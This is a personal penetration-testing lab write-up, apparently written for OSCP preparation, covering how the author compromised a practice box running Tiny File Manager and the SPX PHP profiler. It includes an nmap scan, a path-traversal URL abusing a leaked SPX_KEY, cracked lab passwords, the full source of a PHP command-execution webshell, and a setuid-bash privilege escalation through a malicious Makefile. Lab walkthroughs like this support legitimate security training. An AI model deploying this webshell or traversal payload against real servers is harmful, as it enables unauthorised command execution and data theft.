

**Start 17:17 07-02-2025**

---
```
Scope:
192.168.192.108
```
## Recon

### Nmap

```bash
sudo nmap -sC -sV -vvvv -Pn -p- SPX -sT --min-rate=5000 -T5

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b9:bc:8f:01:3f:85:5d:f9:5c:d9:fb:b6:15:a0:1e:74 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBYESg2KmNLhFh1KJaN2UFCVAEv6MWr58pqp2fIpCSBEK2wDJ5ap2XVBVGLk9Po4eKBbqTo96yttfVUvXWXoN3M=
|   256 53:d9:7f:3d:22:8a:fd:57:98:fe:6b:1a:4c:ac:79:67 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBdIs4PWZ8yY2OQ6Jlk84Ihd5+15Nb3l0qvpf1ls3wfa
80/tcp open  http    syn-ack Apache httpd 2.4.52 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Tiny File Manager
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


I tried the default creds


To no avail.


I tried to brute force it using `hydra` but it just gave me a bunch of false positives.


### Gobuster


### 80/TCP - HTTP

I started looking for exploits 


However this exploit didn't fit my case.

Coming back to the `/phpinfo.php` endpoint however we find the following.


:::important
The 3rd link in this case is the important one.
:::


## PoC 

If we try to run the exploit as is we'll get this error:


However that is because we haven't modified the code yet.


Here we notice the `SPX_KEY` value which we can gather from the `/phpinfo.php` page:


Modified:


Now when we run it:


Awesome! 


Not so awesome.

Let's try it via the URL instead.

```url
http://spx/?SPX_KEY=a2a90ca2f9f0ea04d267b16fb8e63800&SPX_UI_URI=%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fvar%2fwww%2fhtml%2findex.php
```




We get 2 hashes that we can crack!


## Hashcat


:::note
This took a *long* time, but eventually two passwords were cracked: `profiler, lowprofile`.
:::

## Foothold

Using `admin - lowprofile` I was able to log in.


I then uploaded this webshell

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

After which I could execute a rev shell:


:::fail
From here on my reverse shell for whatever reason wouldn't catch, whatever port I issued.
:::

The day after after a fresh reboot I tried again:


This time it worked:


We don't have `sudo -l` privileges nor can we read the `local.txt` flag from *profiler*'s `/home` directory.

Let's check linpeas.


## Lateral Movement

### LinPEAS

Linpeas told me that this target is vulnerable to the **DirtyPipe** exploit:


:::fail

:::

Let's check further.

:::tip
I forgot to spray the passwords and got stuck, try spraying first next time.
:::


### local.txt


## Privilege Escalation

### Replacing Makefile 

We will have to create a malicious `Makefile` which we will use to escalate our privs to *root*.


Let's run it.


We now notice that the `s` bit is set, meaning we can use `/bin/bash -p` now to get a `root` shell.


### proof.txt


:::summary
This box fucking *SUCKED*.
:::
---

**Finished 10:47 08-02-2025**

[^Links]:  [[OSCP Prep]]
